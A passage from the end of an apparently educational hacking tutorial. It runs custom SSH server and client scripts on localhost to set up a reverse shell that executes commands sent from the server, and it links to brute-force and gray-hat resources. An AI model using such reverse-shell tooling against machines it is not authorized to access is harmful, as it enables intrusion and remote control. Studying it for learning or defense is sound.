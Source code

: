 ```python

if __name__ == '__main__':
    main()
```

### Running both Scripts
Let's run each script in a different terminal. First, the server:
```bash
$ ssh_server.py localhost 22
[+] Listening for connection ...
```

Then the client:
```sh
$ ssh_client_reverse.py localhost -p 22 -u buffy -a killvampires
[*] Initializing connection to localhost
[*] User set to buffy
[*] The port to be used is 22.
[*] A password with length 12 was submitted.
Welcome to Buffy's SSH
```

Now we can send any command from the server side to run in the client: we have a reversed shell!

```sh
[+] Listening for connection ...
[+] Connection Established!
[+] Authenticated!
Enter command: ls
filename.log
ssh_client.py
ssh_client_reverse.py
ssh_server.py
test_rsa.key

Enter command:
```

**Awesomesauce!**

 Ah, by the way, all these scripts work not only in Linux but in Windows and Mac as well (so next time you are in a lame Windows machine, no need to install [Putty](http://www.chiark.greenend.org.uk/~sgtatham/putty/download.html) anymore =p ).

---

## Further References:

- [Paramikos reverse SSH tunneling](https://github.com/paramiko/paramiko/blob/master/demos/rforward.py).
- [Ogre: port scanner and brute-force tool (from a friend I met at Hacker School)](https://github.com/tristanfisher/ogre/blob/master/ogre)
- [Black Hat Python](http://www.nostarch.com/blackhatpython).
- [My Gray hat repo](https://github.com/mvonsteinkirch/My-Gray-Hacker-Resources).

